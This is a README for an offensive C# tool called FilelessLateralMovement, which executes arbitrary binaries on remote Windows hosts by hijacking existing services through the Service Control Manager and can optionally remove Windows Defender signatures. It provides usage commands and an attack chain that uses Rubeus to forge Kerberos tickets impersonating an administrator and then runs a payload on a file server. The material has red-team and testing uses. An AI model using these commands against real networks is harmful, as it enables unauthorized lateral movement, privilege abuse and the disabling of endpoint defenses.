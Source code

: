 # FilelessLateralMovement

FilelessLateralMovement is a C# tool designed to execute arbitrary binaries on remote Windows hosts by abusing the Service Control Manager (SCM) and existing services. It supports an optional Defender bypass step and is particularly useful in post-exploitation scenarios, such as after exploiting Kerberos Constrained Delegation (KCD).

## 🚀 Features

- Remote execution via SCM  
- Optional Windows Defender signature removal  
- Restores original service configuration after execution  
- Compatible with Kerberos Constrained Delegation (`S4U2Self` + `S4U2Proxy`)  
- Written in pure C#, no PowerShell required

## 💥 Usage

```
FilelessLateralMovement.exe [TargetHost] [ServiceName] [BinaryToRun] [--skip-defender (optional)]
```

### 🔧 Arguments

| Argument         | Description                                          |
|------------------|-----------------------------------------------------|
| TargetHost      | Hostname or IP address of the remote system         |
| ServiceName     | Short name of the target service (not display name) |
| BinaryToRun     | Full path or command to execute on the remote system |
| --skip-defender | *(Optional)* Skip Windows Defender bypass step      |

### ⚡ Examples

**With Defender bypass**
```
FilelessLateralMovement.exe appsrv01 SensorService "C:\Windows\Temp\payload.exe"
```

**Without Defender bypass**
```
FilelessLateralMovement.exe appsrv01 SensorService "C:\Windows\Temp\payload.exe" --skip-defender
```

## 🔥 Example Attack Chain (Constrained Delegation)

1. Obtain a TGS using Rubeus:
```
Rubeus.exe s4u /user:attackersystem$ /rc4:<HASH> /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

2. Execute remote payload:
```
FilelessLateralMovement.exe file05 SensorService "C:\Windows\Temp\payload.exe"
```

## ⚠️ Disclaimer

This tool is intended **for educational and authorized security testing purposes only**. Do not use it against systems you do not have explicit permission to test.


